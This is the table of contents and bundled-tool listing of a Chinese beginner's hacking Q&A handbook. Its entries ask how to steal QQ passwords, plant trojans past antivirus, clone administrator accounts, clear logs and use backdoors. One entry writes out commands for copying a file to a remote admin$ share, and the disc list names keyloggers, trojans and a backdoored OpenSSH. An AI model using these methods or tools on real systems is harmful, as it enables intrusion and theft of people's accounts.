# 黑客问答一点通

黑客X档案图书　傻瓜黑客系列　菜鸟入门问答教程　URL: www.hackerxfiles.net　[本手册附盘赠送]

菜鸟光盘系列  
解惑晋级工具  
￥19.00

- 第一章　黑客常用术语及基础知识
- 第二章　QQ常见安全问题
- 第三章　Windows 9x/ME系统常见漏洞问题
- 第四章　Windows 2000/XP/2003常见基础问题
- 第五章　Windows 2000/XP/2003的账号及注册表常见问题
- 第六章　黑客入侵常见问题
- 第七章　Windows系统漏洞及修复方法
- 第八章　UNIX/Linux常见基础问题

《黑客X档案》编辑部

# 黑客问答一点通

21786695

作者：  
梁伟（Python）  
杨东柱（Sagi）

# 黑客问答一点通

出版：清华大学出版社  
出品人：孙雅莉  
主编：覃钰  
责任编辑：孙志强  
编研部：Zero 墨蝶子 土豆 宋来迅 楚汉  
特约编辑：Python 叶轩 王洋澄 ICEYSS 小刘  
光盘制作：狂连成  
美编：阿布接 Bifrost  
排版：阿布接  
E-mail：hackerxfiles@263.net  
邮购咨询E-mail：chaxunx@263.net  
邮购咨询电话：(010) 88560080  
联系电话：(010) 88561473 88561472  
联系地址：北京市朝阳  
邮编：100037  
定价：19.00元（含光盘+双挂图卡）

## 第一章 黑客常用术语及基础知识

- 14 黑客（Hacker）是什么？骇客（Cracker）又是什么
- 15 如何才能成为一个黑客（Hacker）
- 16 什么是UNIX系统
- 16 什么是Linux系统
- 17 为什么网上有许多高手都是建议使用Windows NT/2000/XP/2003系统，而不是使用Windows 9x/ME系统
- 17 什么是肉鸡
- 17 什么是木马（Trojan）
- 18 什么是后门（BackDoor）
- 18 什么是跳板
- 18 什么是代理服务器
- 18 什么是端口（Port）
- 18 什么是扫描（Scan）
- 18 什么是SHELL
- 18 什么是权限
- 19 什么是溢出（Exploit）
- 19 什么是远程溢出（Remote exploit）？什么是本地溢出（Local exploit）
- 19 什么是嗅探（Sniffer）
- 19 什么是弱口令
- 20 什么是3389终端服务
- 20 什么是IP地址
- 20 什么是域名（Domain Name）
- 20 什么是HTML
- 21 什么是HomePage（主页）
- 21 什么是WWW（World Wide Web）
- 21 什么是TCP/IP
- 21 什么是FTP
- 22 什么是HTTP
- 22 什么是SMTP
- 22 什么是APACHE
- 22 什么是IIS
- 22 什么是网关（Gateway）
- 22 什么是路由器（Router）
- 23 什么是蜜罐（Honeypots）
- 23 什么是拒绝服务（DoS）攻击
- 23 什么是分布式拒绝服务（DDoS）攻击
- 23 什么是脚本注入攻击（SQL Injection）

## 第二章 QQ常见安全问题

- 25 为什么别人的QQ是可以显示出好友IP地址的，而我的就不能呢
- 25 如何更好地让QQ显示出对方的IP地址
- 25 如何防止QQ显示出自己的IP地址
- 25 如何让对方的QQ掉线
- 26 如何防止自己的QQ被盗
- 26 黑客是如何使用QQ密码破解软件破解QQ密码的
- 28 如何防止在局域网内，自己的QQ密码被键盘记录程序记录下来
- 28 如何防止飘叶千夫指的攻击
- 29 如何让自己的QQ隐身登录
- 29 在隐身的状态下，如何让我的一些好友得知我在线
- 29 如何在自己的QQ中加自己为好友
- 29 在QQ游戏中，同一个QQ号不被允许登录不同的QQ游戏，该如何解决
- 29 我们在发送QQ信息的时候，有时会久久地发送不出去，总是提示通过服务器中转，如何解决呢
- 29 我的QQ中有好几百个好友，每次上线都是头像狂闪，如果此时我想找特定的某位好友的话，有没有好的办法呢
- 30 听说可以不需要验证码就能绑定手机，该如何做呢
- 30 如何免费充QQ币
- 30 如何免费得到QQ币
- 30 如何免费得到QQ物品
- 31 每天上线，都有许多好友发过来视频聊天邀请，烦死了，总不至于需要的时候就插上摄像头，不需要的时候就拔掉摄像头吧，有没有办法不让好友知道自己有摄像头呢
- 31 我想把QQ隐藏起来，让别人从表面上完全看不到我的QQ正在运行，只有我自己才能随时调出它来和朋友联系，可不可以呢
- 31 有没有什么方法可以让我迅速地找到同城网友
- 31 我想在群里发送很多的QQ头像，可是每次只能一个个地选择，不能直接进行头像的复制、粘贴，很麻烦，有没有好的解决方法呢
- 32 我在使用QQ与好友聊天的时候，他们发过来的文字居然是横着的，害得我不得不扭着脖子看，这是如何实现的呀
- 32 如何在我的QQ中发送彩字呀
- 33 我有许多好友，他们的个人资料中什么也没有，这些资料有没有什么方法可以查到呀
- 33 如何在QQ中实现文件的共享呀
- 34 如何随意地发送屏幕截图
- 35 为何好友发过来的图片和自定义表情符号，在我的QQ中显示出来的是个红色的小叉呢
- 35 腾讯TM是什么，能简单地介绍一下吗
- 35 如何相互切换腾讯TM及腾讯QQ
- 35 能不能简单地介绍一下QQ密码防盗专家
- 36 如何查杀令人讨厌的QQ病毒
- 36 如何才能确定好友是处于在线状态还是隐身状态呢
- 37 如何使用QQ远程控制别人的电脑
- 39 如何把我的QQ设置成永远在线呢
- 39 QQ自动聊天器应该如何使用
- 39 我安装了QQ自定义表情后，虽然发送QQ表情方便多了，可是我现在输入的所有文字都是QQ表情形式的，这样也太麻烦了吧，如何取消呢
- 40 我使用QQ在给好友发送消息的时候，为什么按下数字“1”就会出现一张图片呢
- 40 我如何为几个常用的QQ自定义表情设置快捷键
- 41 QQ强制视频软件是如何使用的

## 第三章 Windows 9x/ME系统常见基础问题

- 43 我使用的是Windows 9x/ME系统，可是在运行流光5、X-scan 3.1的时候，怎么老是出错呀
- 43 既然我们使用Windows 9x/ME系统受到这么多的限制，那是不是说，我们就不能使用Windows 9x/ME系统来攻击别人了呢
- 43 为什么我在Windows 9x/ME下使用net use命令来连接远程系统的ipc$的时候，总是出错呢
- 43 Windows 98的共享漏洞是如何被入侵者应用的
- 44 如何在命令行下使用Windows 98的共享
- 44 使用net view命令默认只能查看本地局域网内的共享资源情况，但是对于Internet来说，如何具体使用呢
- 44 攻击者是如何利用Windows 98的共享漏洞让远程电脑蓝屏死机的，如何防范这个问题呢
- 45 如何在Win98下打开MS-DOS
- 45 如何使用attrib命令修改文件的属性
- 45 如何根据端口判断系统
- 45 如何打开注册表
- 45 使用命令nbtstat -a 192.168.0.56的时候出现了“Host not found.”，为什么会这样呀
- 46 如何像入侵Win2k一样给Win98/ME定时启动某些程序
- 46 Win98/ME下怎么查看随机启动的程序都有哪些
- 47 Win98/ME可否对WinXP使用ipc连接
- 47 有没有什么工具，让对方系统运行后就蓝屏呢
- 48 入侵Win98的时候，想进入对方的共享，但是加密了，怎么办
- 49 有一台Win98主机，有一个共享加密了，也打了补丁，没办法从网上破解，怎么做
- 50 Win98中存储着Win98密码的文件是什么文件

## 第四章 Windows 2000/XP/2003常见基础问题

- 52 我的系统中已经安装了Windows XP，可是我还想再安装一个Windows 2003系统，该如何安装呀
- 52 我的系统目前是Windows 98+Windows 2000双系统，默认启动的是Windows 2000，可不可以换成Windows 98呢
- 52 我的电脑中原来安装有2个操作系统，后来我删除了一个，可是在重启时还是会出现多重启动菜单，该如何把启动菜单里已经删除的那个选项清除掉
- 53 在Win2k/XP/2003里有个cmd.exe，那是个什么东西，和Win98下的MS-DOS一样的吗
- 53 如何才能建立一个ipc$空连接
- 53 得到用户名和密码后，如何与对方系统建立连接
- 53 与对方建立了ipc$连接后，对方会不会发现
- 53 请问如何在命令行方式下启动本机的ipc$
- 53 我使用的是Win2000系统，与远程的Win2000系统建立ipc$连接时很方便，但是与远程的WinXP或是Win2003建立ipc$连接时，却是很少成功，而对方并没有使用防火墙禁止ipc$
- 54 能不能使用命令来开启或是停止服务
- 54 我不知道用net start和net stop命令能开启或是停止哪些服务，哪里可以查
- 54 我在建立了ipc$连接后，如何上传文件
- 55 当我们利用ipc$上传了文件后，怎么才能运行呢
- 55 我想要使用at命令来指定任务，但是我不知道对方的主机时间，怎么运行啊
- 55 我在使用at的时候，提示我服务未启动，怎么回事
- 55 我与对方的WinXP系统成功地建立了ipc$连接，但是在使用at命令启动对方的telnet服务的时候却怎么也不能成功，使用的格式也完全没有错误，这是为什么呀
- 55 在命令行下，映射对方的磁盘到本地的命令是什么
- 56 我映射了对方的磁盘，那么，现在我用什么命令才能断开映射呢
- 56 有没有在命令行下可以杀死对方进程的工具
- 56 我能不能在命令行模式下获得对方的PID呢？例如我是telnet到对方主机，我是没有办法调出任务管理器的。
- 57 有什么命令可以查看某个文件夹所对应分给每个用户的权限
- 57 在命令行下，如何中断会话呢
- 57 nslookup干什么用的，听说可以获得DNS，怎么用啊
- 58 我知道了对方的主机名，怎么获得他的IP地址
- 58 我得到了对方的IP地址，我们在同一个局域网内，我可以获得他的主机名吗
- 60 如何使用命令来查看本机的IP地址、DNS服务器
- 60 我能远程列出主机的某个盘下的所有资源吗
- 60 我telnet到远程主机后，想改变他的IP，命令行下怎么做
- 61 用什么命令才可以限制用户的登录时间范围呢
- 62 该如何在系统里卸载IE，默认找不到卸载项的
- 62 我新安装了天网防火墙，可是一启动天网，它就在系统托盘里闪一下就没了，而且进程中也没有，这是怎么一回事呀
- 62 我的系统是XP，由于某些原因，我经常是直接关掉计算机或者是重启，所以下次启动系统的时候总是要等待很长的时间，有没有什么方法可以让自动检测快一些呢
- 62 我有一些视频媒体文件，因为不想让别人看见，就将其扩展名改了，现在后缀我忘记了，有没有办法找回来呢
- 62 为什么我的浏览器突然不显示FLASH了，现在连音乐都不能播放了，怎样才能把浏览器修改回来呢
- 63 我使用的是Windows 2000系统，我想把一个F盘分成两个盘该怎么办呀
- 63 “文件关联”和“文件捆绑”是什么？应该怎样把木马捆绑到软件中去
- 63 在我用C语言编译程序时，产生了一个错误文件，在删除它时，Windows提示该文件的删除路径不对，无法删除。然后从那以后，我只要做“清空回收站”的操作，它都会蹦出个错误信息提示：“*** 文件路径不对，无法删除”。但是回收站的文件已经被清空了，每次清空时，虽然不影响我的操作，但是总蹦出个错误提示，让人觉得烦，怎么才能清除它呢
- 63 如何使用汉字来做密码啊
- 64 我有一台电脑安装的是Windows 2000专业版，因为很长时间没有使用，把administrator用户的密码给忘记了，只知道一个本地的kk用户和密码，我如何才能把administrator的密码给找出来呀
- 64 如何让一台电脑上的C盘共享而又不出现共享标志（就是那个手啊）

## 第五章 Windows 2000/XP/2003系统服务及黑客常见问题

- 66 如何利用注册表修改TTL值
- 66 Win2k的“文件夹选项”-“查看”里没有“显示所有文件和文件夹”了，怎么搞的
- 67 救我，我的IE被修改了，IE标题栏中被写上了网站的地址，怎么办
- 68 Win2k中如何从开始菜单中去掉“文档”菜单
- 68 Win2k中如何从开始菜单中去掉“查找”菜单
- 69 Win2k中如何从开始菜单中去掉“注销”菜单
- 69 如何从开始菜单中去掉“关闭系统”菜单
- 69 如何从开始菜单中去掉“设置”菜单
- 69 如何自动清除“文档”菜单内容
- 69 如何删除桌面上的系统图标
- 69 如何去掉“网上邻居”图标
- 70 如何能禁止使用Win2k的任务管理器
- 70 有没有办法给回收站增加一个重命名的功能
- 70 有没有办法在右键菜单中增加“清空回收站”的选项
- 71 我的WinRAR已经删掉了，但是右键菜单中还是有WinRAR的选项，怎么删除啊
- 71 在开始按钮上点右键出现的那个菜单，可以禁止掉么
- 71 我能不能禁止在桌面上点鼠标右键
- 71 我能不能像在开始运行中输入cmd那样来调用其他的程序呢
- 72 能不能隐藏我上次登录Win2k时候使用的用户名呢
- 73 Win2k中有什么办法可以让CD-ROM不自动读盘吗
- 73 Win2k Server登录的时候在按Ctrl+Alt+Del处的对话框能否修改
- 73 我用的是Win2k，能不能手动对我的注册表优化一下
- 74 日志的存放位置可以修改吗
- 75 如何使用注册表删除Win2k的用户或是组
- 76 我记得Win2k下通过修改注册表就可以修改MAC地址，是吗
- 77 我的IE的地址列表太多了，可以清除吗
- 77 怎么通过注册表查Windows打过的补丁
- 注册表附录部分
- 78 组策略安全选项对应注册表项汇总
- 82 修改注册表来加强Win2k的安全性
- 84 我的注册表被改了，怎么样才能把它给恢复呀
- 84 如果我的系统里中了木马，但是我已经把木马的启动项给删除了，它还会起作用吗
- 84 我的电脑安装的是Windows 2000服务器版，现在不能正常关机。当选择“开始”->“关机”后，系统重新启动，如何解决？另外，我在修改注册表时，改过的某项键值总在系统重启后自动修改回以前的状态，为什么会这样
- 84 为什么我在网吧下载的时候，会出现一个对话框写着“当前安全程序不能下载”，这个该怎么办呀
- 85 Windows 2000下有没有msconfig呀，是改成其他的名字了吗
- 85 我在每次上网时都在天网防火墙中发现一直有一个“system”在连接137、138和139端口，该如何才能解决这个问题

## 第六章 黑客入侵常见问题

- 87 我是一个刚学习网络安全的爱好者，在许多网站上看到过许多的教程，像idq&idq、webdav、rpcdcom、ms04-011的远程攻击都有，看那些作者写得好像很轻松的，我照着教程上写的去做，可是为什么就不能成功呢
- 87 当我使用X-scan在进行扫描的时候，怎么什么也没有扫描到呀，可对方的web服务明明是开放的呀
- 88 我对远程主机进行溢出的时候，已经溢出成功了，但是使用nc连接溢出后绑定shell的端口时，总是过了一会儿，提示连接不成功
- 88 ping不到，也tracert不到！用nbtstat却可以显示一些信息，为什么
- 88 什么是字典？什么是字典文件
- 88 知道了SNMP密码，该如何利用
- 90 看来SNMP这个东西挺危险，怎么防御啊
- 90 admin$这个共享是什么
- 91 怎样在命令提示符下安装terminal service（终端服务）
- 91 能用telnet登录上去，怎么让硬盘共享，怎么下载文件
- 91 我不想使用Win2k的telnet服务，有没有其他telnet后门程序
- 93 我使用的是Windows 2000系统，有什么工具可以让我连接远程UNIX/Linux系统SSH服务呀
- 93 在许多计算机专业的书和杂志上经常看到关于软件“脱壳”的文章，脱壳有什么用呀
- 94 如何使用ftpd32.exe来进行文件的上传、下载
- 94 我使用的是Windows 2000的专业版，我在系统中怎么找不到终端服务（3389）的客户端连接程序呀
- 95 建立了ipc$空连接后到底有什么作用
- 95 听人说使用Windows 98/ME系统无法进行ipc$连接，有没有什么解决的方法啊
- 95 我经常在建立ipc$连接的过程中碰到返回一个错误号的情况，这些号是干什么用的
- 96 怎样打开目标的IPC$
- 96 怎么样才能禁止别人与我进行ipc$连接
- 97 听说可以根据ping的结果来判断主机的操作系统类型，如何判断
- 97 443—HTTPS，Secure HTTP有什么用，可以进入吗
- 97 我想用nbtstat -a ip这个命令来获得对方的一些系统信息，但是结果却是“Host not found.”，为什么
- 97 怎么给文件起双后缀？比如，我有一个文件readme.txt，想在后面加一个后缀bat，怎么加
- 98 请问，我telnet别人的端口（不是23端口），但不知道用什么命令，好像什么命令都打不上去
- 98 如何获得本网段内所有的主机的IP地址
- 98 常见到人们用telnet ip 80来获得web服务器的信息，怎么使用啊
- 99 有什么好的工具来连接SQL SERVER吗
- 99 我找到一台路由器，但怎么才能连接上去
- 99 用3389远程登录后进行的操作对方在屏幕上可以看到吗
- 100 请问，怎么克隆肉鸡的管理员账号
- 101 如何利用注册表克隆账号
- 102 如何在3389机上下载文件，让它支持断点续传，或者可以用网际快车之类的软件下载呢
- 103 怎样在肉机上建立代理
- 105 怎么使用代理啊？我不会设置
- 107 什么是NTLM验证
- 107 怎样解决telnet的“到主机的连接丢失”
- 108 建立ipc$连接的时候，出现“提供的凭据与已存在的凭据集冲突。”怎么回事
- 109 一台机器，有输入法漏洞，但是按Shift+Ctrl切换输入法后，右键并点帮助，总是没有帮助栏弹出来啊
- 109 我知道一台可以用IPC$连接到的Win2000的administrator和密码，可是我每次连接上以后用dir c:\所看到的都是本机的c:\，请问这是为什么啊
- 110 net use z: \\***.***.***.***\c$ /user:admin 返回提示：密码在\\***.***.***.***\f$无效。为什么
- 110 如何使用得到的POP3弱口令
- 111 如何确定一主机的POP3服务器的地址
- 111 NC都是英文啊，参数解释都看不懂，贴篇中文的NC参数解释吧
- 111 我用的NC的参数怎么这么少啊
- 111 如何使用NC进行端口扫描
- 112 如何使用NC建立反向连接
- 112 ncx99是什么东西，和nc有什么区别吗
- 113 我登入3389主机，却出现超过了容许的最大连接数的错误，我也有管理员权限，该怎么办
- 113 请问3389终端服务有什么快捷键啊
- 114 3389登录会留下什么记录，如何清除
- 114 如何远程确定对方的Terminal Service是否开放
- 116 得到对方的admin权限，但是我想得到对方的用户列表，怎么做
- 116 我扫到一个cgi漏洞/images怎么利用
- 116 到底什么才是CGI漏洞啊
- 117 我telnet到一台主机上，该怎么做才能知道当前的操作系统
- 117 我连接到了对方的机器上，但是C:\WINNT\system32\config下的SAM文件copy不下来，怎么办
- 117 如何才能实现远程关机或是重启呢
- 118 Win2k的终端服务除了有可能存在输入法漏洞以外还有什么其他漏洞吗
- 118 知道哪款扫描器最好，被扫描过的主机上不会

## 目录

### 留下记录

- 119 在使用 NetXRay 时提示我未能打开适配器，不知道是什么意思
- 119 有没有什么办法可以将两个文件捆绑在一起，当运行其中一个的时候，另外一个也运行
- 119 入侵成功清除日志的时候，在 W3SVC1 文件夹中有个文件 ex20503.log 总是提示正在使用，不能删除，怎么办
- 119 有没有什么工具可以用来清除 Win2k 的日志
- 120 用 X-scan 扫描时活动线程突然变得很低，只有 2，应该是什么原因
- 120 我想在 Windows 下用 Nmap，是不是需要编译啊
- 120 有人用过了我的机器，但是走的时候没有关 QQ，这样的话，我能获得他的 QQ 密码吗
- 121 怎么才能使自己的木马和后门程序不被杀毒软件杀掉
- 121 我给人种了木马，但是对方为拨号上网，我怎么才能获得他每次的 IP
- 122 有没有什么好的工具可以创建一个管理员，然后再将工具自身删除掉
- 122 有没有用 VBS 编写的脚本可以用来打开对方的 Terminal Service 服务的
- 124 如何能远程开启对方的 Task Scheduler 服务
- 125 对方只开了 ipc$ 共享，怎么做
- 125 获得了对方管理员的用户名和密码，怎么获得 shell
- 126 进入对方主机后，把 guest 这个帐号加入到 administrators 组中后，一些操作居然说我权限不够，为什么啊
- 126 为什么入侵成功后要克隆或是自己专门创建一个独立的帐号呢？使用管理员帐号不可以吗
- 127 如何修改 NTLM 的验证方式
- 127 NTLM 验证方式可以修改为 0、1、2 三个值，三个值分别是什么意思
- 128 入侵的时候遇到这样的问题：`net use \\192.168.0.83\ipc$ /user:administrator` 提示命令成功完成，`copy d:\netsvc.exe \\192.168.0.83\admin$` 时，却拒绝访问
- 128 我用 X-scan 扫描对方主机，知道对方开了 FTP，但是却扫不到，我想到了对方可能修改了 FTP 端口；但是，并没有其他的异常端口啊
- 129 我得到的 IP（QQ 上的）是不是真实的 IP 地址，怎么样才能得到真实的 IP
- 129 如何判断一台主机属于哪个工作组
- 129 怎么判断对方的 FTP 服务器使用的是什么
- 130 如何获得远程主机的密码散列
- 130 获得远程主机散列后，如何破解
- 130 我的肉鸡在一个局域网中（机器上种有灰鸽子），我在另一个局域网中，那么，我能控制它吗
- 130 有一个内部网络，里面的 FTP 服务器只对内部开放，我现在在内部有一台肉鸡，我想连到内部的 FTP 上，该怎么做啊
- 131 什么样的网络模型适合于嗅探
- 131 我使用终端服务登录远程主机后，运行了一个后门程序，但是第二天当我使用后门连接时发现无法连接，是什么原因呀
- 131 Windows 2000 的日志文件的位置是在哪里的
- 131 如何判断主机的 SP 版本号是多少
- 132 当我使用终端连接程序登录一台 3389 主机的时候，它要我按 Ctrl+Alt+Del，可是我要一按下，本机就会出现任务管理器，该怎么解决这个问题呀
- 132 我使用的是 Windows 2000 系统，在上网的时候，屏幕上频繁地出现了“信使服务”发送过来的消息！大多是广告之类的，怎样才能拒绝这样的消息
- 132 通过 telnet 登录进系统后，怎么样才能把 3389 的用户注销掉
- 132 如何修改 Win2000 终端的 3389 连接端口，需要使用什么工具呢
- 132 我用 X-scan 扫描到了一台主机的管理员弱口令，当我使用 ipc$ 成功连接上去后，我们还能做什么
- 133 我初次使用流光，遇到一个问题，安装“Fluxay Sensor”，这是怎么一回事？要如何设置呀
- 133 什么是 Cookie 呀
- 133 我使用跨站脚本攻击成功地得到了一个论坛管理员的 Cookie，然后我该怎么办呢
- 133 在网上有许多攻击测试程序都是 .pl 的，我在我的电脑上运行的时候没有反应，要怎么才能正确地运行这类程序呢
- 133 怎么才可以防止我的 WEB 服务器上的数据库文件被下载呀
- 133 我是一个小菜鸟，什么样的扫描器才适合我呢
- 134 我在浏览网页的时候怎么才能知道我浏览的网页的 IP 地址？IE 有时能看到可是一闪就过去了，看不清楚，要用什么才能很清楚地看到我浏览网页的 IP 地址？我用过“IP 猎狗”可是好像只是针对 WWW 开头的地址可以查，那剩下的没有 WWW 开头的该怎么查看呀
- 134 我的电脑的操作系统是 Windows XP，我使用内置的“远程桌面连接”连接上了远程电脑，是使用的系统管理员帐号登录的，对远程文件夹和硬盘都设置了共享，但为什么下载不了文件？上传也不可以，但却可以对文件进行修改和删除呢
- 134 我有一个肉鸡，是 Win2000 系统，请问该如何给它远程开终端（3389）服务
- 135 我用 3389 终端控制了一台计算机，可是有什么好的方法可以实现文件的上传和下载呢
- 135 我知道远程一台 Windows 2000 主机中的一个具有管理员权限的帐号和密码，可是我向对方建立 IPC$ 连接的时候却无法成功，那么，我是否还有别的方法可以远程执行命令吗
- 135 听说 MyDoom 病毒存在一个后门，感染病毒的主机可以被攻击者远程利用，是这样的吗
- 136 听说 Sasser（震荡波病毒）也存在一个类似 MyDoom 的后门，可以被远程攻击者利用，是的吗？该如何利用
- 138 我在网上问老鸟使用什么后门好时，他们都给我推荐 BITS，这个后门是如何使用的呀
- 140 请问一下 PortlessNew 后门的具体使用方法
- 143 听说 DameWare 存在一个远程溢出，是的吗，该如何利用
- 145 我扫描到了一台可以匿名登录的 Serv-U FTP 服务器，有没有什么办法可以入侵呢
- 145 我扫描到了一台有 sa 空口令的服务器，接下来
- 146 都说在网吧中使用键盘记录工具就可以轻松地记录下 QQ 或信箱的登录密码，能不能给我介绍一个好用的键盘记录工具呢
- 147 我使用 `netstat -an` 查看我的系统，发现有几个莫名其妙的端口开启了，是否有什么方法可以查看到该端口使用的程序呢
- 147 请问 july.exe 是如何使用的
- 148 可不可以暴力破解 Windows 2000 的终端（3389）服务的登录密码呢
- 149 端口重定向到底有什么作用呢？使用什么方法可以从 Internet 上直接访问对方的内部网络中的机器
- 150 听说 Windows XP 也有终端服务，在哪儿呀？要如何设置才可以让别人访问呀
- 150 我使用的是 Windows XP 系统，听说 Windows XP 系统默认是有防火墙，在哪儿呀？如何开启呀
- 151 能不能介绍一个好用的可以在局域网内获得密码的嗅探工具
- 151 目前大多数网上的服务器都是使用的 Windows 2000 或 Windows 2003 系统，我使用的是 Windows XP 系统，可不可以也安装 IIS 服务呢？要如何安装呢
- 152 如何才能分辨出远程主机使用的是 Windows 2000 系统，还是 Windows XP 系统，还是 Windows 2003 系统呢
- 152 Cygwin 该如何安装呀
- 154 如何在 Cygwin 环境下将一个原来 for UNIX/Linux 的 C 源程序编译成可以在 Windows 下运行的程序呢
- 155 为何我运行使用 Cygwin 编译好的 .exe 可执行程序，会提示说无法找到 DLL 而出错呢
- 155 我使用的是天网防火墙，能不能给我介绍一下天网防火墙的简单使用呀
- 158 在网上看到许多人在说 PsTools 是一个非常实用的工具包，能不能给我介绍一下它的使用方法呢
- 163 如何检测一个程序所加的壳的类型呢
- 164 如何清除流光 5 的时间限制呀，在网上我也看到了许多方法，可就是没有成功，该怎么办呀
- 164 能不能给我简单地介绍一下病毒的传播途径呀

## 目录

## 第七章 Windows 常见漏洞及修复方法

- 1. IIS Hack
- 2. MDAC/RDS 漏洞
- 3. catalog_type.asp 漏洞
- 4. Codebrws.asp & Showcode.asp
- 5. ASP dot 漏洞
- 6. IIS 4.0 ISM.DLL 缓冲区溢出漏洞
- 7. NT Site Server Adsamples 漏洞
- 8. ASP Alternate Data Streams (::\$DATA)
- 9. Double Byte 泄露 ASP 源码漏洞
- 10. code.asp 泄露文件内容漏洞
- 11. fpcount.exe 阻断服务攻击漏洞
- 12. 微软 FrontPage 98 dvwssr.dll 后门漏洞
- 13. IIS %3F+.htr 泄露文件部分内容漏洞
- 14. Virtualized UNC Share 泄露 ASP 源代码漏洞
- 15. Translate:f 泄露 ASP 源代码漏洞
- 16. Index Server (null.htw) 泄露文件内容漏洞
- 17. IIS Path Reveal 泄露真实路径漏洞
- 18. IIS UNICODE 解码漏洞
- 19. IIS CGI 文件名检查错误漏洞
- 20. Win2000 输入法漏洞
- 21. .ida & .idq 漏洞
- 22. .printer 漏洞
- 23. IIS .ASP 映射分块编码远程缓冲区溢出漏洞
- 24. RPC Locator 远程缓冲区溢出漏洞
- 25. WebDAV 远程溢出漏洞
- 26. Media nsiislog.dll 远程溢出漏洞
- 27. RPC DCOM 接口远程溢出漏洞
- 28. Messenger 远程溢出漏洞
- 29. Workstation 服务远程溢出漏洞
- 30. FrontPage fp30reg.dll 远程溢出漏洞
- 31. Windows Lsasrv.dll 远程溢出漏洞
- 32. Windows SSL Library 远程溢出漏洞

## 第八章 UNIX/Linux 常见基础问题

- 听说 UNIX/Linux 都有许多不同的版本，像我等小菜，选择什么样的版本学习好呢
- 我的系统中已经安装了 Windows XP 系统，可我还想再安装一个 Linux 系统，可以吗，该如何安装
- 可不可以相互切换 KDE 及 GNOME 呀
- 我在 RedHat Linux 下，将软盘放入软驱以及将光盘放入光驱，怎么软盘及光盘都认不出来呀
- 我在原来安装 RedHat Linux 的时候，软件包是采用默认的方式安装的，有许多都没有，有没有什么办法可以添加安装呢
- 我的 56K 的调制解调器（Modem），Linux 没有识别出来，该怎么办呀
- 我的 56K 的调制解调器的驱动程序已经成功安装了，可是要如何设置才能上网呀
- 我使用的是宽带，如何设置才能上网呀
- 我是在公司局域内的一台电脑上安装的 Linux 系统，该如何设置才能让它上网呢
- 在 Windows 系统下可以使用“Print Screen Sys Rq”键来进行屏幕抓图，但是在 RedHat Linux 下，该如何进行屏幕抓图呀
- 如何修改 RedHat Linux 系统的屏幕分辨率和色深呢
- 在 RedHat Linux 下，如何调出一个类似于 cmd.exe 的 shell 命令窗口呢
- 如何查看当前登录进系统的用户
- 如何在 Linux 系统中添加用户呀
- 如何修改文件或目录的权限呀
- RedHat Linux 的用户密码文件是存放在哪儿的呀
- 如何破解 RedHat Linux 中加过密的用户密码
- 如何启动或停止 RedHat Linux 上的某个服务
- 如何简单地设置防火墙
- 我成功地开启了 SSH 及 Telnet 服务，为什么还是不能从别的电脑上登录呀
- 如何查看 RedHat Linux 系统的日志文件
- RedHat Linux 下有哪些好用的扫描软件
- 如何将 Linux 系统做成一个 WEB 服务器
- 如何将我的 RedHat Linux 变成一个 FTP 服务器
- 如何让我的 RedHat Linux FTP 服务器不能匿名登录

## 星火库

- **Cain 2.5**：一个可以破解屏保、PWL 密码、共享密码、缓存口令、远程共享口令、SMB 口令，支持 VNC 口令解码、Cisco Type-7 口令解码、Base64 口令解码的工具。
- **L0phtCrack 5.04**：用于检测 Windows、UNIX 用户是否使用不安全密码的密码破解工具。
- **网络神偷 6.0**：专业级远程文件访问工具。
- **THC-Hydra**：用于对网络登录系统进行快速字典攻击。
- **BlackICE Server 3.6 cnr**：入侵检测系统。
- **瑞星图片病毒专用查杀工具**：针对特定漏洞相关图片病毒的查杀工具。
- **Calamus 1.5**：欺骗 TCP/IP 协议，从而匿名登录 telnet、ftp、http、irc、icq 等。
- **花刺代理（ProxyThorn）**：代理验证与快速查找高质量代理。
- **PcAnywhere 10.0**：著名远程控制工具。
- **PE—加密 2.0**：用于软件保护与辅助查杀。
- **黑客之门**：后门技术类工具说明。
- **sk10g1.14**：键盘记录工具。
- **PasswordsPro 1.11**：密码恢复工具。
- **Casi-PHP 注入**：PHP 注入与扫描辅助工具。
- **sqlhello-SQL 溢出**：SQL 溢出利用工具。
- **NBSI 2.0**：SQL 自动注入工具。
- **MyIM**：兼容 QQ/MSN/Yahoo/ICQ/AIM 的聊天安全软件。
- **MiniMo 0.7**：一款功能强大的木马工具。
- **Rootkit Hunter 1.7**：运行在类 Unix 系统上的 rootkit 检测工具。
- **Nmap 3.70**：网络主机与服务探测工具。
- **ChallengeCollapsar**：用于 DDoS 相关攻击测试程序。
- **屏幕间谍 2004**：后台记录键盘、网址、文件与程序运行信息。
- **OpenSSH 后门版**：带记录密码功能的后门版本说明。

## 图书相关

- **QQ 远程任我行 1.0**：通过 QQ 进行远程控制，体积小、占用低。
- **QQ 密码防盗专家 2004**：可自定义 QQ 标题与间隔，支持自动关闭广告。
- **QQ 强制视频工具**：对方运行客户端后可发起强制视频会话。
- **QQ 好友号码好盗**：输入 QQ 号并生成木马相关文件。
- **QQ 头像永远在线修改器 2004**：实现“头像常在线”效果。
- **QQ 自动聊天器**：针对同类聊天软件的自动应答/防护功能。
- **QQ 尾巴、流行病毒统杀工具**：查杀 QQ 病毒、木马及部分盗号程序。
- **QQ 表情**：个性字符、动感酷图、搞笑图片等自定义表情。
- **天空爱 QQ 密码探索者**：在线破解 QQ 密码工具。
- **多功能密码破解软件**：支持进度保存与区间设置的密码破解。
- **win9xnetbiosex**：针对 Win98 共享的远程溢出工具。

## 光盘目录

- **nbrute10**：可以用于搜索局域网和因特网上的共享资料，也可用于扫描端口。
- **流光5 测试版+过期补丁**：强大的安全检测、系统漏洞扫描工具，压缩包内包含过期补丁。
- **PsTools**：一个命令行下的 Windows NT/2000/XP/2003 远程或者局域系统管理工具包。
- **天网防火墙**：天网防火墙（个人版）把网络分为本地网和互联网，可针对不同网络信息设置不同安全规则。
- **PEiD**：可检测 435 种壳，分析性能较强，并可识别 EXE 文件编写语言（如 VC++、Delphi、VB 等）。
- **C3389.EXE**：修改终端服务端口号的工具。
- **CA.exe**：可将 Administrator 账号克隆为指定普通账号。
- **BITS**：进程管理器中常看不到，平时无端口，提供正向连接和反向连接功能，适用于 Windows 2000/XP/2003。
- **PortLess BackDoor 1.2**：使用 svchost.exe 启动，平时不开端口，可进行反连接的后门程序。
- **BSqlExec.exe**：天符软件的 MS-SQL Server 连接浏览器。
- **cleaniislog**：清除 IIS LOG 记录工具，可清除指定 IP 连接记录并保留其他记录。
- **klogger.exe**：对键盘敲击进行记录的日志工具。
- **tftpd32**：TFTP 设置软件。
- **mydoom**：MyDoom.A 的溢出工具。
